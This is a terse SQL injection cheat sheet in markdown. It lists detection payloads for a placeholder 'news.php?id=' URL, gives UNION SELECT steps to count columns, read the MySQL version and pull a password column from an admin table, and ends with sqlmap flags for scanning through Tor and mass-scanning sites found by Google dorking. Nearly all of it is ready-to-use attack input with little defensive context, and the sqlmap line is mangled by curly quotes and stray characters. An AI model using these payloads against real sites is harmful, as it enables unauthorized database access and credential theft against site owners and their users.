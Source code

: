 # SQL injection
		Detecting SQL injection vulnerabilities
- Single quote '	`https://site/news.php?id=5'`
- Boolean conditions `https://site/news.php?id=5 OR 1=1`
- Timed base `https://site/news.php?id=5 or SLEEP(25)`

<!-- -->

				Blind SQL injection
the application does not return the results of the SQL query or the details of any database errors within its responses. Blind vulnerabilities can still be exploited to access unauthorized data.
				
				
				
				
				
				
				
				Finding Number of columns
-- Increment until you get a error 				
`http://ip/news.php?id=5 order by 1/*`

				Checking Union Fuction
-- union all Number of columns found
-- `http://ip/news.php?id=5 union all select 1,2,3/*`

				Check MYSQL version
-- `http://$ip/news.php?id=5 union all select 1,@@version,3/*`

				Getting Column and Table Names
-- Table Names
-- `http://ip/news.php?id=5 union all select 1,2,3 from admin/*`
-- Column Names
-- `http://ip/news.php?id=5 union all select 1,password,3 from admin/*`
				SQLMap
-- Scan through Tor
	--tor-type=SOCKS5
-- List Databases
	--dbs


-- Use google Dorking
sqlmap -g “payload” –-random-agent -f –-batch –-answer=”extending=N,follow=N,keep=N,exploit=n”n